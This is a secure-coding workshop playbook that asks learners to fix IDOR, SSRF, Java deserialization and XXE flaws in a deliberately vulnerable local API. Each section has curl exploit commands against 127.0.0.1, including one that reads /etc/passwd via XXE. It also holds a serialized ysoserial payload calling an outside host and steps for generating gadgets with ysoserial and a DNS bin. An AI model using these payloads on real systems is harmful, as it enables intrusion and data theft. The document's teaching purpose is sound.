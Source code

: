 # playbook-08.md & Api.java

Welcome to this 8th playbook, here you'll learn about Insecure Direct Object Reference, Server Side Request Forgery, Java unserialize issues, and XML External Entity.


## IDOR

Goal1: Fix the IDOR issue so a user can only acces their own billing information.
Goal2: Think about another solution to mitigate such issue and explain it without implementing it.

Insecure Direct Object Reference consist in a user, authentified or not, being able to access data that doesn't belong to them. It often requires guessing the right id or uuid to access, as well as a lack of ownership check, also call RBAC for Role Based Access Control.


```bash
# Test feature
curl -sSkg "http://127.0.0.1/api/user/1/billing/1" # Output: {"user_id":"1","card_info":"VISA, 4150321684570625, 8/2025, 425","card_id":"1","card_owner":"1"}
# Test exploit
curl -sSkg "http://127.0.0.1/api/user/1/billing/5" # Output: {"user_id":"1","card_info":"VISA, 4024007184111184, 10/2025, 718","card_id":"5","card_owner":"3"}
```


## SSRF

Goal1: Fix the SSRF that exposes the loopback and the internal network. Let's keep it simple for now, let's assume that we'll only pick profiles form https://fr.gravatar.com/ such as "https://fr.gravatar.com/ypdohmnjoxpatw40ul28"
Goal2: Without implementing it, propose a solution to protect access to /api/protected-feature without relying on the source IP.

Server Side Request Forgery are generally present when and attacker can control parts or all of a URLs or URIs (think about file:// glob:// jar:// etc) that is then used by the server to emit requests process some URI's content.


```bash
# Test feature
curl -sSkgi "http://127.0.0.1/api/protected-feature" # Output: {"content":"Denied, bad source IP"}
# Test exploit
curl -sSkgi "http://127.0.0.1/api/user/fetchProfile?url=http://127.0.0.1:8080/api/protected-feature" # Output: {"content":"{\"PATH\":\"/root/.sdkman/candidates/java/current/bin:/root/.sdkman/candidates/gradle/current/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"SDKMAN_VERSION\":\"5.15.0\",\"JAVA_HOME\":\"/root/.sdkman/candidates/java/current\",\"SDKMAN_CANDIDATES_API\":\"https://api.sdkman.io/2\",\"SDKMAN_PLATFORM\":\"linuxx64\",\"GRADLE_HOME\":\"/root/.sdkman/candidates/gradle/current\",\"HOSTNAME\":\"ab16d96fae0c\",\"SDKMAN_DIR\":\"/root/.sdkman\",\"PWD\":\"/sources\",\"HOME\":\"/root\",\"SHLVL\":\"0\",\"SDKMAN_CANDIDATES_DIR\":\"/root/.sdkman/candidates\",\"_\":\"/root/.sdkman/candidates/gradle/current/bin/gradle\"}"}
```


## Unserialize

Goal: Play a bit with the exploit, try to find a way to use (un)serialization without being at risk. How could we prevent unserialize issues?

Historically, (un)serialization was a convenient way to pass complex classes from one server to another, or to save a kind of "internal state" on the frontend before an end-user takes an action that will submit it again to the backend and update this state. The problem with this approach is that many Classes methods can be chained upon deserialization in a way to achieve remote code execution, code evaluation, or file read/write. The way such exploit works is _really_ complex, we'd be happy to chat more in depth about this, but not in this short session! ;)


A small quote from Snyk (dependency security analysis tool) we couldn't agree more with:

> The best way to prevent a Java deserialize vulnerability is to prevent Java serialization overall. If your application does not accept serialized objects at all, it cannot harm you.


```bash
# Test feature
# There's no real feature implemented here, we just want you to know that this exists, and can cause a lot of damage! :)

# Test exploit
PAYLOAD=rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa%2FORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F3QAF3dvcmtzaG9wLnoubWFub2hhY2suY29tdAABL3EAfgAFdAAEaHR0cHB4dAAfaHR0cDovL3dvcmtzaG9wLnoubWFub2hhY2suY29tL3g%3D
curl -sSkgi "http://127.0.0.1/api/debug-feature?serializedObject=$PAYLOAD" # Output: {"content":"ok"}

# Bonus - Generate your own gadget!
## Setup SDKMan to have the right java version
curl -s "https://get.sdkman.io" | bash
sdk install java 11.0.14-zulu
sdk use java 11.0.14-zulu
# Get your dns bin here: https://requestbin.net/dns
alias urlencode='python3 -c "import sys; from urllib.parse import quote; print(quote(sys.argv[1], safe=str()))"'
PAYLOAD=$(urlencode $(java -jar ysoserial.jar URLDNS 'http://<YOUR_DNS_BIN>/' |  base64 -w 0))
echo "$PAYLOAD"
curl -sSkgi "http://127.0.0.1/api/debug-feature?serializedObject=$PAYLOAD"
# Verify it worked on your dns handler

# You can also list other gadgets with
java -jar ysoserial.jar -l
```


## XXE

Goal1: Fix the XML External Entity while preserving the current feature that parses xml and outputs 
Hint: One line is more than enough for this!

XML External Entity is a super convenient issue for attackers as it allows the exploitation of many exploit primitives at once. Indeed, one XXE can lead to SSRF, file listing, reading, sometimes file upload, or even unserialize issues! The SSRF can work for any of http, https, ftp, sftp, jar, telnet, and much more! It has been known since early 2000, yet it's still quite common for various languages and frameworks to expose such issues with parsers not using the right options, or not adopting a "safe by default" approach... *Sigh*

```bash
# Test feature
curl -sSkg "http://127.0.0.1/api/xml" -H 'Content-Type: application/xml' --data-binary "$(cat sources/sample-good.xml)"  # Should display the content of xml back
# Test exploit
curl -sSkg "http://127.0.0.1/api/xml" -H 'Content-Type: application/xml' --data-binary "$(cat sources/sample-evil.xml)"  # Should display the content of /etc/passwd
```
